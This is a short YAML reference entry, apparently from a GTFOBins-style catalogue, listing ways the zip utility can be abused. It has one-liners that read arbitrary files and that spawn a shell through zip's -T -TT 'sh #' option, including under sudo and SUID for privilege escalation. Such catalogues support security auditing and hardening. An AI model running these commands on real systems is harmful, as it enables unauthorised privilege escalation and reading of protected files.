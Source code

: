 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file-to-read
        TF=$(mktemp -u)
        zip $TF $LFILE
        unzip -p $TF
  shell:
    - code: |
        TF=$(mktemp -u)
        zip $TF /etc/hosts -T -TT 'sh #'
        rm $TF
  sudo:
    - code: |
        TF=$(mktemp -u)
        sudo zip $TF /etc/hosts -T -TT 'sh #'
        sudo rm $TF
  limited-suid:
    - code: |
        TF=$(mktemp -u)
        ./zip $TF /etc/hosts -T -TT 'sh #'
        sudo rm $TF
---
```

